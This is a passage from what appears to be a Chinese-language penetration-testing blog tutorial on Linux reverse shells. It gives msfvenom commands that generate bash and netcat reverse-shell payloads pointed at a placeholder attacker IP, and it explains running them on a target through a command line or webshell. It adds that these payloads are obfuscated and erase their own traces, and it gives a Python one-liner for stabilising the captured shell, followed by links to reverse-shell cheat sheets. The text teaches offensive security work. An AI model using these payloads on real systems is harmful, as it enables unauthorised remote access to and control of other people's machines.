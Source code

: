```bash
msfvenom -l payloads 'cmd/unix/reverse'
```

一般用法是用`msfvenom`生成反弹shell，在攻击者机器上开监听，复制到靶机命令行或`webshell`执行反弹shell并等待shell连上攻击者机器。为了方便，后面举例时把`kali`同时作为靶机。

举例1：生成`bash`反弹shell

```bash
msfvenom -p cmd/unix/reverse_bash lhost=[ATTACKER-IP] lport=10000 R
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-17.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-16.png)

举例2：生成`nc`反弹shell

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[ATTACKER-IP] lport=10000 R
```

靶机截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-19.png)

攻击者截图：

![]({{ site.url }}/images/linux-backdoor/bash-reverse-18.png)

可以看到，`msfvenom`生成的反弹shell代码经过了不同程度的混淆，也更完善更隐蔽，会在反弹的shell进程结束后自行清理文件痕迹。

## 0x0B 稳定shell

有时反弹出来的shell会有各种问题，如不稳定，环境变量缺失等。此时可以在新的shell里获取一个标准的shell：

```python
python -c "import pty;pty.spawn('/bin/bash')"
```

## 0x0C 参考

- [linux下反弹shell的几种方法](http://blog.csdn.net/u012985855/article/details/64117187?utm_source=itdadao&utm_medium=referral)
- [Linux下反弹shell笔记](https://www.cnblogs.com/deen-/p/7237327.html)
- [关于Linux的反弹shell命令的解析](http://os.51cto.com/art/201709/550457.htm)
- [Linux下反弹shell方法](https://www.waitalone.cn/linux-shell-rebound-under-way.html)
- [Reverse Shell Cheat Sheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [Reverse Shell with Bash](http://www.gnucitizen.org/blog/reverse-shell-with-bash/)
- [【技术分享】linux各种一句话反弹shell总结](http://bobao.360.cn/learning/detail/4551.html)
- man bash
